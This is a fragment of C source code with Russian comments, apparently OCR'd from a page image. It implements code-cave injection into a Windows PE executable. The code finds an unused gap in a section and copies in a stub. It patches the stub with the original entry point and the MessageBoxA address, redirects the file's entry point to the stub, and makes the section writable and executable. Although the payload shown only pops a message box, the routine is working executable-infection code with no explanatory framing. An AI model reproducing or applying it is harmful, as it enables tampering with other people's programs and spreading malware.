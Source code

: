     if(charcounter == 0 || writeOffset == 0){
        printf("[-] Could not locate a big enough code cave\n");
        goto cleanup;
    }
     
    writeOffset -= stubLength;
     
    stub = (unsigned char *)malloc(stubLength + 1);
    if(!stub){
        printf("[-] Error allocating sufficent memory for code\n");
        goto cleanup;
    }
     
    // копируем код в буфер
    memcpy(stub, StubStart, stubLength);
     
    // определяем смещения до заглушек в коде
    for(i = 0, charcounter = 0; i != stubLength; i++){
        if(stub[i] == 0xCC){
            charcounter++;
            if(charcounter == 4 && callOffset == 0)
                callOffset = i - 3;
            else if(charcounter == 4 && oepOffset == 0)
                oepOffset = i - 3;
        }else charcounter = 0;
    }
     
    // проверяем их на валидность
    if(oepOffset == 0 || callOffset == 0){
        free(stub);
        goto cleanup;
    }
     
    hUser32 = LoadLibrary("User32.dll");
    if(!hUser32){
        free(stub);
        printf("[-] Could not load User32.dll");
        goto cleanup;
    }
     
    // подменяем заглушки реальными значениями
    *(u_long *)(stub + oepOffset) = (oepRva + pNtHeaders->OptionalHeader.ImageBase);
    *(u_long *)(stub + callOffset) = ((DWORD)GetProcAddress(hUser32, "MessageBoxA"));
    FreeLibrary(hUser32);
     
    // записываем код
    memcpy((PBYTE)hMap + writeOffset, stub, stubLength);
     
    // устанавливаем точку входа
    pNtHeaders->OptionalHeader.AddressOfEntryPoint = 
        FileToVA(writeOffset, pNtHeaders) - pNtHeaders->OptionalHeader.ImageBase;
     
    // устанавливаем размер секции
    pSection->Misc.VirtualSize += stubLength;
    pSection->Characteristics |= IMAGE_SCN_MEM_WRITE | IMAGE_SCN_MEM_READ | IMAGE_SCN_MEM_EXECUTE;
     